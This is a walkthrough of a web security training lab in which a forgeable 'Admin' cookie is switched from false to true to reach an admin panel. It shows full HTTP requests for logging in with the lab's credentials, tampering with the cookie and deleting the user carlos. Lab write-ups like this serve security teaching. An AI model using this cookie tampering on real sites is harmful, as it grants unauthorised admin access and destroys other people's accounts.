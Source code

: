 ## Lab: User role controlled by request parameter
This lab has an admin panel at `/admin`, which identifies administrators using a forgeable cookie.

Solve the lab by accessing the admin panel and using it to delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution
Start by logging in with the credentials we have. After logging in we send the request to the repeater.

Request:
```http
GET /my-account?id=wiener HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=false; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Here we see a cookie named "Admin" set to false. Let's change this to true and try to access ```/admin```.
Request:
```http
GET /admin HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=true; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
X-Frame-Options: SAMEORIGIN
Content-Length: 3115

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>User role controlled by request parameter</title>
    </head>
    <body>
**********SNIP***********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/admin/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/admin/delete?username=carlos">Delete</a>
                        </div>
                    </section>
**********SNIP***********
    </body>
</html>

```
Here we find the delete endpoint again.

Request:
```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a570075049421d7801c120100c10007.web-security-academy.net
Cookie: Admin=true; session=6r8SohYqIvL7Ki3JteuRhrIX5qcv1xp6
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0a570075049421d7801c120100c10007.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

Response:
```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![](Solved_the_Lab.png)

## Alternative:
We could also, after login, change the cookie value in the browser to get access to the Admin panel link and delete the user through the browser.  
![](Cookie_Browser_Alternative_Lab_2.png)